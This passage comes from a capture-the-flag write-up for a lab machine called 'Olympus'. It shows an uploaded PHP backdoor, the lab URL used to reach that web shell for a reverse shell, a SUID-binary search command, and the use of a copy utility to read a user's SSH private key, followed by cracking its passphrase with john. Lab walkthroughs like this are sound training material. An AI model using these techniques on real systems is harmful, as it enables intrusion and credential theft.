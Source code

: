 ```bash
| 2022-08-26 | here                                                                                                                                                            | <blank>                              | prometheus |
| 2022-08-26 | Attached : backdoor.php                                                                                                                                         | 13870bd3c9b18b7260ddd5c4db8577d8.php | prometheus |
| 2022-08-26 | test                                                                                                                                                            | <blank>                              | prometheus |
| 2022-08-26 | test                                                                                                                                                            | <blank>                              | prometheus |
+------------+-----------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------------------+------------+
```

so now it is possible to get to the shell http://chat.olympus.thm/uploads/13870bd3c9b18b7260ddd5c4db8577d8.php 
a get a reverse shell 

## Second flag User flag
In turns out the www-data user can read the flag in users zeus folder


## Third flag
After spending a lot of time a suid binary was found 

```bash
www-data@olympus:/home/zeus$ find / -type f -perm -4000 2>/dev/null
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/cputils
/usr/bin/sudo
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/at
/usr/bin/pkexec
/usr/bin/su
/usr/bin/chfn
......
```

the cputils short for copy utils can read all files and can therefor read the id_rsa of the zeus user
after copying it to the attack box. Since the public key is password protect we need to crack the password first using
ssh2john and john
